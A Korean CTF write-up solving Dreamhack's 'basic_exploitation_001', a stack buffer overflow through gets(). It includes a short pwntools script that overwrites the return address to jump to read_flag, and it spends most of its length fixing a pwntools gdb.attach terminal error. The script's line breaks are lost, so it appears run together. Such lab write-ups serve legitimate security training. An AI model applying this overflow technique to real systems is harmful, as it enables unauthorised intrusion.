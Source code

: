 ```yaml
---
layout: post
title: 'Dreamhack-basic_exploitation_001 문제 풀이'
summary: basic_exploitation_001 문제 풀이
author: TouBVa
date: '2024-12-01 16:00:00 +09'
category: ['system_hacking']
thumbnail: /assets/img/posts/2024-12-01-basic_exploitation_001/Untitled.png
keywords: system, BOF
usemathjax: true
permalink: /blog/dreamhack_system_hacking/2024-12-01-basic_exploitation_001
---
```


* TOC
{:toc}

<br></br>

소스가 주어진 문제로, 소스를 보고 수행한다면 훨씬 쉽지만 어셈블리 감각을 유지하기 위해 소스를 보지 않고 디버거로 파일을 파악했다.

<br></br>

## 0. 파일 메타데이터 확인

<br></br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled.png)

<br></br>

NX enabled

단순히 스택에 쉘코드 넣는 걸론 안될듯?

`file`, `readelf -h` 로 일단은 체크함, not stripped / ELF32

<br></br>

## 1. 파일 동작 확인

<br></br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_1.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_1.png)

<br></br>

그냥 실행해서는 아무것도 알 수 없음

<br></br>

## 2. pwndbg로 확인

<br></br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_2.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_2.png)

<br></br>

누가 봐도 `read_flag`에 뭔가 있어 보인다

일단은 `main` 함수부터 분석하자

<br></br>

### 2.1. main 분석

<br></br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_3.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_3.png)

<br></br>

그런데 이거 왜 line3에서 `add esp, 0xffffff80`이라고 한 거지?

부동소수점 표현방식 생각했을 때 `sub esp, 0x80`이라고 하면 편할 텐데

아무튼 `0x80`만큼의 버퍼를 할당하고, 그 시작 주소를 `gets`의 인자로 주는군요

`gets`는 입력값 길이를 설정하지 않은 취약한 함수이므로 그 취약점을 이용해 보자

NX는 설정되어 있으니 쉘코드를 스택에 넣는 걸로는 안될 거고

그럼 내부에서 쓸만한 함수가 있을 경우 RET addr를 그쪽으로 변경하면 되겠다

그리고 그 쓸만한 함수는 아마 `read_flag` 아닐까?

<br></br>

### 2.2. read_flag 분석

<br></br>

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_4.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_4.png)

<br></br>

오케이! 이쪽으로 RET addr를 리다이렉트 해주면 되겠다

<br></br>

## 3. 페이로드 작성

<br></br>

0x80(dump)+0x04(rbp contamination)+0x080485b9

로컬 프로그램에 시도해 보았다.

```python
from pwn import *p = process('./basic_exploitation_001')
p=remote('')
# context.terminal = ["bash"]payload=b'A'*0x80payload+=b'B'*0x4payload+= p32(0x080485b9, endian='little')
# gdb.attach(p, gdbscript='b *(main+20)')# input('1')p.sendline(payload )
p.interactive()
```

<br></br>

### 3.1. 에러 해결-gdb.attach시 gdb가 붙지 못하는 오류

<br></br>

하지만 gdb.attach를 수행 시 아래와 같은 에러가 뜬다.

```python
Could not find terminal binary 'vscode'. Set context.terminal to your terminal.
```

보통 이 에러가 뜨면 `context.terminal = ["tmux", "splitw", "-h"]` 를 코드에 추가해 context.terminal을 명시적으로 정의하여 gdb가 돌 수 있는 터미널 응용 프로그램을 지정하라고 한다.

일반적으로 이렇게 하면 해결되고… 하지만 난 해결이 안 됐다. gdb가 붙지 못하고 먼저 죽어버리는 것이었다.

에러 메시지에는 ptrace의 실행 권한을 확인하라고만 나와 있었는데, 난 이미 해당 플래그를 편집해 모든 프로세스가 디버깅을 위해 ptrace를 사용 가능하도록 열어둔 상태였고 터미널의 환경 변수도 정상적으로 적용되어 있었다.

그래서 [에러가 뜬 소스](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/util/misc.py)를 직접 확인해 봤다.

<br></br>

```python
def run_in_new_terminal(command, terminal=None, args=None, kill_at_exit=True, preexec_fn=None):
    """run_in_new_terminal(command, terminal=None, args=None, kill_at_exit=True, preexec_fn=None) -> int    Run a command in a new terminal.    When ``terminal`` is not set:        - If ``context.terminal`` is set it will be used.          If it is an iterable then ``context.terminal[1:]`` are default arguments.        - If a ``pwntools-terminal`` command exists in ``$PATH``, it is used        - If tmux is detected (by the presence of the ``$TMUX`` environment          variable), a new pane will be opened.        - If GNU Screen is detected (by the presence of the ``$STY`` environment          variable), a new screen will be opened.        - If ``$TERM_PROGRAM`` is set, that is used.        - If X11 is detected (by the presence of the ``$DISPLAY`` environment          variable), ``x-terminal-emulator`` is used.        - If KDE Konsole is detected (by the presence of the ``$KONSOLE_VERSION``          environment variable), a terminal will be split.        - If WSL (Windows Subsystem for Linux) is detected (by the presence of          a ``wsl.exe`` binary in the ``$PATH`` and ``/proc/sys/kernel/osrelease``          containing ``Microsoft``), a new ``cmd.exe`` window will be opened.    If `kill_at_exit` is :const:`True`, try to close the command/terminal when the    current process exits. This may not work for all terminal types.    Arguments:        command (str): The command to run.        terminal (str): Which terminal to use.        args (list): Arguments to pass to the terminal        kill_at_exit (bool): Whether to close the command/terminal on process exit.        preexec_fn (callable): Callable to invoke before exec().
```

<br></br>

시스템 터미널 환경에 어떤 커스텀이 적용되어 있으면, 그것을 확인해 해당 커스텀이 추가해 둔 시스템의 환경 변수를 읽어와서 새로운 터미널 프로세스를 fork할 때 exec의 커맨드로 주는 메커니즘인 것 같았다.

따라서 `printenv` 명령어로 현재 사용자 프로파일에 정의된 환경 변수 중, 위의 설명에 언급된 것이 있는지 여부를 확인해 보았다.

1. vscode shell-우선순위에 따라 TERM_PROGRAM 환경변수를 우선 참조한다.
    
    ```bash
    tv@tv-virtual-machine:~/system_hacking/basic_exploitation_001.d$ export | grep -E "PATH|TMUX|STY|TERM_PROGRAM|DISPLAY|KONSOLE_VERSION"declare -x DISPLAY=":0"declare -x GNOME_SETUP_DISPLAY=":1"declare -x PATH="/home/tv/.local/bin:/home/tv/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin"declare -x TERM_PROGRAM="vscode"declare -x TERM_PROGRAM_VERSION="1.90.2"declare -x WAYLAND_DISPLAY="wayland-0"
    ```
    
2. system shell(/etc/passwd의 마지막 필드에 정의된 사용자의 기본 쉘)-위의 설명이 나열한 것 중 DISPLAY 환경변수밖에 없어, X11(리눅스 GUI 환경)임을 탐지하고 심링크로 설정된(x-terminal-emulator는 일종의 perl 스크립트와 연결되어 users’ preferred terminal binary로 심링크를 타게 해준다) 유저 기본 터미널을 실행하게 된다.
    
    ```bash
    tv@tv-virtual-machine:~/system_hacking/basic_exploitation_001.d$ printenv | grep -E "PATH|TMUX|STY|TERM_PROGRAM|DISPLAY|KONSOLE_VERSION"WAYLAND_DISPLAY=wayland-0
    GNOME_SETUP_DISPLAY=:1
    DISPLAY=:0
    PATH=/home/tv/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/snap/bin
    ```
    

<br></br>

그리고 vscode shell에서 vscode 명령어를 실행하면 아무것도 실행되지 않는다. 즉, 최초로 등장했던 아래의 오류는 vscode라는 명령어 바이너리가 없어서였던 것이다!

```python
Could not find terminal binary 'vscode'. Set context.terminal to your terminal.
```

<br></br>

자… 그럼 이제 어떻게 해야 할까?

저 환경변수 자체를 바꿔버리거나, vscode라는 바이너리를 /usr/bin/에 만들어서 내부 스크립트로 기본 터미널에 심링크를 걸거나(~/.profile 참조), 아니면 숨어 있는 vscode 바이너리를 찾아내서 해당 바이너리의 path를 추가하거나(find 명령어 이용)

그런데 그건 vscode shell을 써야만 할 때의 이야기고

나는 그냥 쉽게 시스템 기본 쉘을 썼다.

<br></br>

드림핵에서 가상머신 할당했는데 무슨 이유에서인지 접근이 안 돼서….

로컬 파일 익스한 것만 올린다.

![/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_5.png](/assets/img/posts/2024-12-01-basic_exploitation_001/Untitled_5.png)

